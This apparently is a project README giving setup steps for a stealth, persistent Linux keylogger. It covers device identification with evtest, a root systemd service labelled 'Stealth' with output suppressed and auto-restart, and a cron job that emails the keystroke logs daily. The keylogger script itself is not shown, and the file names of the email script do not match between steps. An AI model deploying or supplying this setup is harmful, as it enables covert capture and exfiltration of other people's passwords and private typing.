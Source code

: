 # Linux Based Persistent Keylogger with mailing
This is a Linux based keylogger which starts at startup and runs in the background. Saves the output of every key stroke in a file and mails the file automatically in every 24 hours cycle to the admin.

## Project Structure
```
  /usr/local/bin/
 ├── keylogger.sh          # Main keylogger script (background)
 ├── mail_keylog.sh        # Email script (sends logs daily)
  /etc/systemd/system/
 ├── keylogger.service     # Systemd service for persistence
  /var/log/keylogger/      # Directory storing keystroke logs
```
## Features
1. Runs in the background silently
2. Logs all keystrokes into a file (/var/log/keylogger/YYYY-MM-DD.log)
3. Persists after reboot (via systemd service)
4. Sends daily logs to admin via email (via cron job)
5. Auto-restarts if stopped

## Installation & Setup
1. Install Dependencies
   ```
   - sudo apt update && sudo apt install evtest mailutils -y  #Debian
   - sudo yum install evtest mailx -y #RHEL
   ```
3. Identify the Keyboard Device
   ```
   - sudo evtest
   ```
      - Then check for the keyboard device #Example: /dev/input/event1:	AT Translated Set 2 keyboard
         - Press keys to check response. Once identified, update /dev/input/eventX in the script.

## Keylogger Script
1. Create the script here: ``` sudo nano /usr/local/bin/keylogger.sh ```
2. Then make it executable with: ``` chmod +x /usr/local/bin/keylogger.sh ```

## Making the Keylogger Persistent
1. Create a systemd service
   ```
   - sudo nano /etc/systemd/system/keylogger.service
   ```
2. Paste the following:
 ```
[Unit]
Description=Stealth Linux Keylogger
After=network.target

[Service]
Type=simple
ExecStart=/usr/local/bin/keylogger.sh
Restart=always
User=root
StandardOutput=null
StandardError=null

[Install]
WantedBy=multi-user.target
```
3. Enable and start the service
   ```
    - sudo systemctl daemon-reload
    - sudo systemctl enable keylogger
    - sudo systemctl start keylogger
   ```
4. Verify if its running
   ```
   sudo systemctl status keylogger
   ```

## Emailing the logs every 24 hours with cron jobs
1. Create the email script
   ```
   sudo nano /usr/local/bin/mail_keylog.sh
   ```
2. Make it executable
   ```
   sudo chmod +x /usr/local/bin/send_keylog.sh
   ```
3. Schedule the cron job daily at midnight
   ```
   sudo crontab -e
   ```
   Then add the following
   ```
   0 0 * * * /usr/local/bin/mail_keylog.sh
   ```
4. Restart cron service
   ```
   sudo systemctl restart cron
   ```

